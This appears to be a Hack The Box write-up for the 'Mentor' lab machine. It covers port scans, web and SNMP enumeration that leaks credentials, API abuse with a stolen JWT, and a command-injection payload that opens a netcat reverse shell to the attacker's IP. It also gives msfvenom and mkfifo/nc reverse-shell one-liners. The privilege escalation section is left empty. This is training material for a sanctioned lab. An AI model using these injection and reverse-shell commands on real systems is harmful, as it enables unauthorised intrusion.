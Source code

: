 ```yaml
---
title: "Mentor"
date: 2024-04-28
categories: HTB
tags: ["htb walkthrough", "ctf", "cybersecurity", "hackthebox", "htb writeup", "penetration testing", "mentor", "writeup", "htb"]
---
```


# Mentor

# Mentor
OS: Linux
Difficulty: Medium
Note: Previously User Owned

## Credentials
```text
james : kj23sadkj123as0-d213
user1 : passworddd (new user created)
```

# Enumeration
# Nmap
TCP
```sh
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c7:3b:fc:3c:f9:ce:ee:8b:48:18:d5:d1:af:8e:c2:bb (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBO6yWCATcj2UeU/SgSa+wK2fP5ixsrHb6pgufdO378n+BLNiDB6ljwm3U3PPdbdQqGZo1K7Tfsz+ejZj1nV80RY=
|   256 44:40:08:4c:0e:cb:d4:f1:8e:7e:ed:a8:5c:68:a4:f7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJjv9f3Jbxj42smHEXcChFPMNh1bqlAFHLi4Nr7w9fdv
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://mentorquotes.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Device type: general purpose
```

UDP
```sh
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-13 06:16 AEST
Nmap scan report for mentorquotes.htb (10.10.11.193)
Host is up (0.019s latency).

PORT      STATE         SERVICE      VERSION
53/udp    closed        domain
67/udp    closed        dhcps
68/udp    open|filtered dhcpc
69/udp    closed        tftp
123/udp   closed        ntp
135/udp   open|filtered msrpc
137/udp   closed        netbios-ns
138/udp   closed        netbios-dgm
139/udp   closed        netbios-ssn
161/udp   open          snmp         SNMPv1 server; net-snmp SNMPv3 server (public)
162/udp   closed        snmptrap
445/udp   open|filtered microsoft-ds
500/udp   open|filtered isakmp
514/udp   closed        syslog
520/udp   open|filtered route
631/udp   open|filtered ipp
1434/udp  closed        ms-sql-m
1900/udp  closed        upnp
4500/udp  open|filtered nat-t-ike
49152/udp closed        unknown
Service Info: Host: mentor
```
# HTTP
http://mentorquotes.htb/
![[/assets/images/mentor1.png]]
## Fuzzing

```sh
dirsearch -e php,asp,aspx,jsp,py,txt,conf,config,bak,backup,swp,old,db,sql -u http://mentorquotes.htb:80

gobuster dir -u http://mentorquotes.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -x php -t 50 -o gobuster_root

# sub-domain fuzzing (vhost)
ffuf -u http://mentorquotes.htb -H "Host: FUZZ.mentorquotes.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac

gobuster dns -u http://mentorquotes.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

![[/assets/images/mentor2.png]]

/server-status

## Subdomain fuzzing
![[/assets/images/mentor3.png]]

## api.mentorquotes.htb
![[/assets/images/mentor4.png]]

```sh
# Enumerating API with Gobuster
gobuster dir -u http://api.mentorquotes.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/api/objects.txt -p pattern

# pattern
{GOBUSTER}/v1
```

![[/assets/images/mentor6.png]]

/admin
![[/assets/images/mentor5.png]]

/users
![[/assets/images/mentor7.png]]

```sh
ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ -recursion -recursion-depth 1 -e .php -v

ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt:FUZZ -u http://api.mentorquotes.htb/FUZZ -recursion -recursion-depth 2 -e .php 
```

## api.mentorquotes.htb/docs
![[/assets/images/mentor9.png]]
![[/assets/images/mentor11.png]]
![[/assets/images/mentor12.png]]

# SNMP
```sh
# Enumerate community strings
onesixtyone -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt 10.10.11.193
```

![[/assets/images/mentor16.png]]

![[/assets/images/mentor17.png]]

```sh
# enumerate all the currently running processes
snmpwalk -c internal -v1 10.10.11.193 1.3.6.1.2.1.25.4.2.1.2
```

![[/assets/images/mentor18.png]]

![[/assets/images/mentor19.png]]

`iso.3.6.1.2.1.25.4.2.1.5.2134 = STRING: "/usr/local/bin/login.py kj23sadkj123as0-d213"`


# Foothold
## AbusingAPI 
### Check what HTTP methods are accepted
![[/assets/images/mentor8.png]]

### Creating a new user 
![[/assets/images/mentor13.png]]

![[/assets/images/mentor14.png]]

![[/assets/images/mentor15.png]]

changed the `Content-Type: application/json`

can also be done via curl
```sh
# sign up as a new user
curl api.mentorquotes.htb/auth/signup -X POST -H 'Content-Type: application/json' -d
'{"email":"pwnmeow@mentor.htb","username":"pwnmeow","password":"password"}'

# login as the newly created user
curl api.mentorquotes.htb/auth/login -X POST -H 'Content-Type: application/json' -d '{"email":"test@email.com","username":"user1","password":"passworddd"}'
```

![[/assets/images/mentor20.png]]

```sh
# james' JWT 
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0
```

Use james' JWT to perform command injection on `/admin/backup`

![[/assets/images/mentor21.png]]
![[/assets/images/mentor22.png]]

Unstable shell

```sh
curl http://api.mentorquotes.htb/admin/backup -H 'Authorization:
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW
50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0' -H 'Content-Type:
application/json' -X POST -d '{"path":"$(nc 10.10.14.6 4444 -e /bin/sh)"}'
```

![[/assets/images/mentor23.png]]
???

Revert the machine

![[/assets/images/mentor24.png]]

Uploading a shell 

```sh
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=4444 -f elf > shell.elf

rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.10.14.6 4444 > /tmp/f
```


# Privilege Escalation
## Enumeartion



## Attempt

